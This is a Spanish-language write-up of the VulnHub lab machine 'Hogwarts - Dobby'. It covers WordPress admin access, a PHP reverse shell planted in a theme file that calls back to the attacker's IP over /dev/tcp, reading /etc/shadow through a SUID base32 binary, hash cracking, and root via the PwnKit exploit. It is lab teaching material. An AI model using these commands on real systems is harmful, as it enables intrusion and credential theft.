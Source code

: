 ```yaml
---
title: Hogwarts - Dobby
date: 2024-09-08
categories: [WRITEUPS, VulnHub]
tags: []  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


Buenas, en esta máquina explotaremos un **Wordpress**, por el cual obtendremos una **Reverse Shell**, migraremos de usuarios por el bit **SUID** de un binario, y escalaremos de privilegios por la versión anticuada de **pkexec**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo con *NMAP* para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 192.168.1.167 -n -Pn -v
```

Encontramos únicamente el puerto **80 - HTTP** abierto.

![picture](/assets/images/vulnhub/hog1.png){: w="600" h="300" }

Si nos vamos al navegador, para ver que está corriendo, vemos una página por defecto de **Apache2**.

![picture](/assets/images/vulnhub/hog2.png)

Buscando en el código fuente de la página, vemos una ruta comentada.

![picture](/assets/images/vulnhub/hog3.png)

Y encontramos lo siguiente.

![picture](/assets/images/vulnhub/hog4.png)

La casa del personaje **Draco Malfoy** es **Slytherin**.

---

## **Explotación**

Realizando **Fuzzing** con **Gobuster** encontramos otras rutas.

```bash
gobuster dir -u http://192.168.1.167 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x .txt,.php,.html -b 404,403 -t 200
```

![picture](/assets/images/vulnhub/hog5.png)

En el contenido de la ruta "**/log**", encontramos una contraseña, y otra ruta.

![picture](/assets/images/vulnhub/hog6.png)

Y dentro de la ruta encontrada en "**/log**", vemos un *Blog* corriendo con **Wordpress 5.5.3**.

![picture](/assets/images/vulnhub/hog7.png)

Viendo la entrada de **DOBBY**, si traducimos el texto codificado en **Brainfuck** no obtenemos nada claro.

![picture](/assets/images/vulnhub/hog8.png)

Y dentro de la web no encuentro nada más interesante, realizando **Fuzzing** sobre la la web de **Wordpress**, encuentro las rutas y archivos típicos.

![picture](/assets/images/vulnhub/hog9.png)

En el login de **wp-admin** consigo acceder al panel administrador con las credenciales de **Draco**.

![picture](/assets/images/vulnhub/hog10.png)

![picture](/assets/images/vulnhub/hog11.png)

Dentro del panel administrador, al ser la versión antigua, si nos deja editar el tema, podremos inyectar código **PHP** para obtener una **Reverse Shell** en nuestra máquina local.

Nos vamos al editor de temas, y en la cabecera del tema activo (*header.php*) le introducimos el código que nos devolverá la **Reverse Shell**.

```php
exec("bash -c 'bash -i >& /dev/tcp/192.168.1.159/4444 0>&1'");
```

![picture](/assets/images/vulnhub/hog12.png)

Y actualizamos el archivo.

Una vez hecho, crearemos un **Listener** con **ncat** en nuestra máquina local, con el puerto indicado en el código **PHP** para que nos devuelva una **Shell** interactiva.

- *Listener*
	
	```bash
	nc -nlvp 4444
	```

E introduciremos en la *URL* del navegador la ruta donde se encuentra el archivo **header.php**.

```python
http://192.168.1.167/DiagonAlley/wp-content/themes/amphibious/header.php
```

Pulsamos "*enter*", y se nos ejecutará el código.

![picture](/assets/images/vulnhub/hog13.png)

Y obtendremos una **Shell** interactiva en nuestra máquina local dentro del servidor.

![picture](/assets/images/vulnhub/hog14.png){: w="600" h="300" }

Hago un tratamiento de la *tty*, para obtener una *Shell* más limpia.

```bash
script /dev/null -qc /bin/bash
CTRL+Z
stty raw -echo; fg
ls
export SHELL=/bin/bash
export TERM=screen
stty rows 46 columns 184 ('stty size' en la máquina local)
reset
```

Encontramos el usuario **dobby**.

![picture](/assets/images/vulnhub/hog15.png)

Dentro de su carpeta personal encontramos la primera **flag**.

![picture](/assets/images/vulnhub/hog16.png)

---

## **Escalada de privilegios**

Buscando archivos con el **Bit** **SUID**, encuentro **base32**.

```bash
find / -perm -4000 -type f 2>/dev/null
```

![picture](/assets/images/vulnhub/hog17.png)

En la Web [**GTFOBins - base32**](https://gtfobins.github.io/gtfobins/base32/), encontramos como podemos leer archivos privilegiados del servidor gracias al bit **SUID** en **base32**.

Voy a leer el contenido del archivo "**/etc/shadow**" que es el que contiene las contraseñas cifradas de los usuarios del sitema.

```bash
LFILE=/etc/shadow
base32 "$LFILE" | base32 --decode
```

![picture](/assets/images/vulnhub/hog18.png)

Y en su contenido encontramos la contraseña cifrada del usuario **dobby**.

![picture](/assets/images/vulnhub/hog19.png)

A continuación, la copiaremos, y la intentaremos crackear con **JohnTheRipper** mediante fuerza bruta en nuestra máquina local.

![picture](/assets/images/vulnhub/hog20.png)

```bash
echo 'contraseña cifrada' > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Y al cabo de un rato, nos encuentra la contraseña.

![picture](/assets/images/vulnhub/hog21.png){: w="600" h="300" }

Migramos de usuario a **dobby**, y obtenemos resultado.

![picture](/assets/images/vulnhub/hog22.png)

Cuando busqué los binarios con bit de **SUID**, también encontré **pkexec**, viendo ahora la versión (**0.105**) para una posible escalada de privilegios, me doy cuenta que es vulnerable a [**PwnKit - CVE-2021-4034**](https://github.com/Almorabea/pkexec-exploit).

Me descargo el script en **Python3** del repositorio de **Github**, con **wget**.

![picture](/assets/images/vulnhub/hog23.png)

Y lo ejecuto para obtener una bash como **root**.

![picture](/assets/images/vulnhub/hog24.png){: w="600" h="300" }

Y en el directorio personal encuentro la segunda **flag**.

![picture](/assets/images/vulnhub/hog25.png){: w="600" h="300" }



